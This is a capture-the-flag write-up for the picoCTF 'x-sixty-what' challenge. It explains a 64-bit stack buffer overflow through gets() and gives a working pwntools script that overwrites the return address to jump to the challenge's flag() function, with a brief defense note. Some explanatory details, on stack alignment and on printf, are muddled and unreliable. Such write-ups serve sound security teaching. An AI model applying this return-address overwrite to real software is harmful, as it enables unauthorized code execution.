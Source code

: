 # x-sixty-what-Medium Writeup

**Flag:** `picoCTF{...}`

---

## Summary

This challenge leverages a **stack buffer overflow** on a 64-bit binary. The binary reads input into a fixed-size buffer with `gets()`, which has **no bounds checking**. Immediately above the buffer on the stack is the saved return address.

Instead of corrupting a variable, we can **overwrite the return address** to point directly to the `flag()` function, which prints the flag using an unsafe `printf(buf)` call.

---

## Vulnerability

Relevant snippet:

```c
void vuln(){
  char buf[64];
  gets(buf);  // unsafe, no bounds check
}
```

* Buffer = 64 bytes (`BUFFSIZE`)
* 64-bit system → saved return address is **8 bytes** above buffer
* `flag()` function exists and prints the flag:

  ```c
  void flag() { ... printf(buf); }
  ```

Overflowing the buffer allows us to **control the return address**, effectively redirecting execution to `flag()`.

---

## Exploitation Strategy

1. **Calculate offset to return address**

   * Buffer = 64 bytes.
   * 64-bit stack frame adds **8 bytes for saved RBP**.
   * Offset to return address = 64 + 8 = 72 bytes.

2. **Overwrite return address**

   * The exploit payload:

     ```
     b"X" * 72 + p64(flag_addr)
     ```
   * `flag_addr` is the address of the `flag()` function in the binary.

3. **Trigger flag output**

   * When `vuln()` returns, execution jumps to `flag()`.
   * `flag()` reads `flag.txt` and prints it.

---

## Exploit Script Overview

```python
from pwn import *

context.arch = 'amd64'

elf = ELF("./vuln")
flag_addr = elf.symbols["flag"]

payload = b"X" * 72
payload += p64(flag_addr)

conn = process("./vuln")   # or remote(HOST, PORT)
conn.sendline(payload)
conn.interactive()  # receives flag output
```

* Uses `pwntools` for local/remote execution.
* Overwrites **saved return address** directly to `flag()`.
* 64-bit stack alignment requires 72-byte padding before the overwrite.

---

## Final Notes

* **Vulnerability:** stack buffer overflow via `gets()`.
* **Exploit type:** ret2function / return-to-flag.
* **Defense:** never use `gets()`; use `fgets()` or safe bounded input.
* **Takeaway:** On 64-bit systems, saved RBP + buffer length determines offset to return address. Directly returning to a function like `flag()` can give immediate code execution.

